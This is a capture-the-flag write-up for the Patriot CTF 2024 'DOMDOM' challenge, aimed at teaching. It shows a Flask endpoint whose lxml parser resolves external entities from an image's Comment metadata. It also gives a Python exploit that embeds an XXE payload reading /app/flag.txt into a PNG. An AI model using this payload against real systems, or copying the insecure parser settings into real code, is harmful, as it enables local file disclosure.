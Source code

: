 # DOMDOM Patriot CTF 2024

@phulelouch

### Problem:

```python
@app.route('/check', methods=['POST', 'GET'])
def check():
    r = requests.Session()
    allow_ip = request.headers['Host']
    if request.method == 'POST':
        url = request.form['url']
        url_parsed = urllib.parse.urlparse(url).netloc 
        if allow_ip == url_parsed:
            get_content = r.get(url = url)
        else:
            return "Cannot request for that url"
        try:
            parsed_json = json.loads(get_content.content.decode())["Comment"]
            parser = etree.XMLParser(no_network=False, resolve_entities=True)
            get_doc = etree.fromstring(str(parsed_json), parser)
            print(get_doc, "ho")
            result = etree.tostring(get_doc)
        except:
            return "Something wrong!!"
        if result: return result
        else: return "Empty head"
    else:
        return render_template('check.html') 
```

```python
image = Image.open(name)
            image_dict = {
                   "Filename": image.filename,
                   "Image Size": image.size,
                   "Comment": image.info.get('Comment')
                   }
            return image_dict
```

### Way of thinking :

The problem is a web application that allows users to upload images and then parse the image's EXIF data. The application uses the `Pillow` library to open the image and extract the EXIF. Then load into a dictionary and return it. The problem is that the application does not validate the image's EXIF and load it into XML

TL;DR: This `"Comment": image.info.get('Comment')` and this

```
parsed_json = json.loads(get_content.content.decode())["Comment"]
parser = etree.XMLParser(no_network=False, resolve_entities=True)
get_doc = etree.fromstring(str(parsed_json), parser)
```

are the key to the problem. The application is vulnerable to XXE (XML External Entity) attacks

### Solution:

I use ChatGPT to write the code create an image and replace the comment with a malicious XML payload that read /app/flag.txt. Then just /check it

The code is in domdom\_exploit.py

![alt text](<Screenshot 2024-09-22 at 3.36.09 PM.png>)

### Exploit:

```python
from PIL import Image, PngImagePlugin
import io

image = Image.new('RGB', (100, 100), color = 'red')

xxe_payload = """<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///app/flag.txt">
]>
<foo>&xxe;</foo>
"""

# Embed the payload in the Comment field
meta = PngImagePlugin.PngInfo()
meta.add_text("Comment", xxe_payload)

# Save the image to a BytesIO object
image_bytes = io.BytesIO()
image.save(image_bytes, "PNG", pnginfo=meta)
image_bytes.seek(0)

# Save the image to a file
with open("malicious.png", "wb") as f:
    f.write(image_bytes.read())

    #malicious.png64511
```
